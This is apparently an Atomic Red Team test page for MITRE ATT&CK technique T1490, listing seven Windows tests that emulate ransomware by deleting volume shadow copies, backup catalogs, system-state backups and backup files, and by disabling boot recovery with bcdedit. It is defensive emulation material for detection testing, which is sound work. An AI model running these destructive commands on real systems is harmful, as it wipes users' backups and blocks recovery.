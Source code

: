 # T1490 - Inhibit System Recovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1490)
<blockquote>Adversaries may delete or remove built-in operating system data and turn off services designed to aid in the recovery of a corrupted system to prevent recovery.(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017) Operating systems may contain features that can help fix corrupted systems, such as a backup catalog, volume shadow copies, and automatic repair features. Adversaries may disable or delete system recovery features to augment the effects of [Data Destruction](https://attack.mitre.org/techniques/T1485) and [Data Encrypted for Impact](https://attack.mitre.org/techniques/T1486).(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017)

A number of native Windows utilities have been used by adversaries to disable or delete system recovery features:

* <code>vssadmin.exe</code> can be used to delete all volume shadow copies on a system - <code>vssadmin.exe delete shadows /all /quiet</code>
* [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) can be used to delete volume shadow copies - <code>wmic shadowcopy delete</code>
* <code>wbadmin.exe</code> can be used to delete the Windows Backup Catalog - <code>wbadmin.exe delete catalog -quiet</code>
* <code>bcdedit.exe</code> can be used to disable automatic Windows recovery features by modifying boot configuration data - <code>bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI](#atomic-test-2---windows---delete-volume-shadow-copies-via-wmi)

- [Atomic Test #3 - Windows - wbadmin Delete Windows Backup Catalog](#atomic-test-3---windows---wbadmin-delete-windows-backup-catalog)

- [Atomic Test #4 - Windows - Disable Windows Recovery Console Repair](#atomic-test-4---windows---disable-windows-recovery-console-repair)

- [Atomic Test #5 - Windows - Delete Volume Shadow Copies via WMI with PowerShell](#atomic-test-5---windows---delete-volume-shadow-copies-via-wmi-with-powershell)

- [Atomic Test #6 - Windows - Delete Backup Files](#atomic-test-6---windows---delete-backup-files)

- [Atomic Test #7 - Windows - wbadmin Delete systemstatebackup](#atomic-test-7---windows---wbadmin-delete-systemstatebackup)


<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer. Upon
execution, if no shadow volumes exist the message "No items found that satisfy the query." will be displayed. If shadow volumes are present, it
will delete them without printing output to the screen. This is because the /quiet parameter was passed which also suppresses the y/n
confirmation prompt. Shadow copies can only be created on Windows server or Windows 8.

https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc788055(v=ws.11)

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
vssadmin.exe delete shadows /all /quiet
```




#### Dependencies:  Run with `powershell`!
##### Description: Create volume shadow copy of C:\ . This prereq command only works on Windows Server or Windows 8.
##### Check Prereq Commands:
```powershell
if(!(vssadmin.exe list shadows | findstr "No items found that satisfy the query.")) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
vssadmin.exe create shadow /for=c:
```




<br/>
<br/>

## Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI
Deletes Windows Volume Shadow Copies via WMI. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.
Shadow copies can only be created on Windows server or Windows 8.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic.exe shadowcopy delete
```






<br/>
<br/>

## Atomic Test #3 - Windows - wbadmin Delete Windows Backup Catalog
Deletes Windows Backup Catalog. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer. Upon execution,
"The backup catalog has been successfully deleted." will be displayed in the PowerShell session.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wbadmin delete catalog -quiet
```






<br/>
<br/>

## Atomic Test #4 - Windows - Disable Windows Recovery Console Repair
Disables repair by the Windows Recovery Console on boot. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.
Upon execution, "The operation completed successfully." will be displayed in the powershell session.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```

#### Cleanup Commands:
```cmd
bcdedit.exe /set {default} bootstatuspolicy DisplayAllFailures >nul 2>&1
bcdedit.exe /set {default} recoveryenabled yes >nul 2>&1
```





<br/>
<br/>

## Atomic Test #5 - Windows - Delete Volume Shadow Copies via WMI with PowerShell
Deletes Windows Volume Shadow Copies with PowerShell code and Get-WMIObject.
This technique is used by numerous ransomware families such as Sodinokibi/REvil.
Executes Get-WMIObject. Shadow copies can only be created on Windows server or Windows 8, so upon execution
there may be no output displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```






<br/>
<br/>

## Atomic Test #6 - Windows - Delete Backup Files
Deletes backup files in a manner similar to Ryuk ransomware. Upon exection, many "access is denied" messages will appear as the commands try
to delete files from around the system.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
```






<br/>
<br/>

## Atomic Test #7 - Windows - wbadmin Delete systemstatebackup
Deletes the Windows systemstatebackup using wbadmin.exe. This technique is used by numerous ransomware families. This may only be successful on server platforms that have Windows Backup enabled.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wbadmin delete systemstatebackup -keepVersions:0
```






<br/>

